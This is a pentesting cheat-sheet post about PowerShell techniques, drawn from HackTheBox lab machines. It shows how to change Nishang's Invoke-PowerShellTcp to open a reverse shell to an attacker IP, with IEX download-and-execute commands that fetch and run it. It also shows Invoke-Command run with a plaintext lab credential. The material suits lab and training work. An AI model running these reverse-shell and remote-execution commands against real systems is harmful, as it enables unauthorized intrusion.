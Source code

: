 ```yaml
---
description: >-
  Powershell Modules
title: Powershell Modules              # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Powershell Modules]                     # Change Templates to Writeup
tags: [file transfer, powershell modules]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Nishang
If we want to add a .ps1 file into a Windows machine such as the [Nishang](https://github.com/samratashok/nishang) series we can modify the latest line of such file (to load the script and then execute it):
```powershell
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 1234
```
Then we can execute it by using the following command on the compromised machine:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1')
```
Examples:
[[Anubis#^bcdb9e]]

### Invoke-Command
Module to execute commands on the specified machine:
```powershell
PS> $Password = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
PS> $Creds = New-Object System.Management.Automation.PSCredential('timelapse.htb\svc_deploy', $Password)
*PS> Invoke-Command -ComputerName dc01 -Credential $Creds -ScriptBlock { whoami }
```
Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:invoke-command)

### Get-SMBShare
Retrieves the local shares:
```powershell
PS C:\Users\BTables\Desktop> Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC
```
Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:get-smbshare)

### Select-String (Search String Pattern)
Search files on the system
```powershell
PS X:\fulcrum.local\scripts> Select-String -Path "X:\fulcrum.local\scripts\*.ps1" -Pattern Administrator
PS X:\fulcrum.local\scripts> Select-String -Path "X:\fulcrum.local\scripts\*.ps1" -Pattern 923a
```
Example:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:select-string)

### AD CS
TODO
[[Anubis]]

### Invoke-PowerShellTCP
In order to connect to get a reverse shell with powershell we can abuse of the [Invoke-PowerShellTCP.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) all we need to do is modify the very bottom of this .ps1 file as follows:
```powershell
# Invoke-PowerShellTCP.ps1
------------------------SNIP---------------------------
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.2 -Port 443 -Rows 37 -Cols 189
```
> To get the file in rows and columns of the screen we can execute the stty size on our attacker machine.
{: .prompt-info }

Then from the shell we get, we only need need to execute the followin powershell command:
```powershell
powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.16.2/Invoke-PowerShellTcp.ps1')"
```

> Don't forget to open your listener with netcat locally.
{: .prompt-tip }
Examples:
[Streamio](https://shuciran.github.io/posts/Streamio/#fnref:invoke-powershelltcp-ps1)
[[Anubis]]

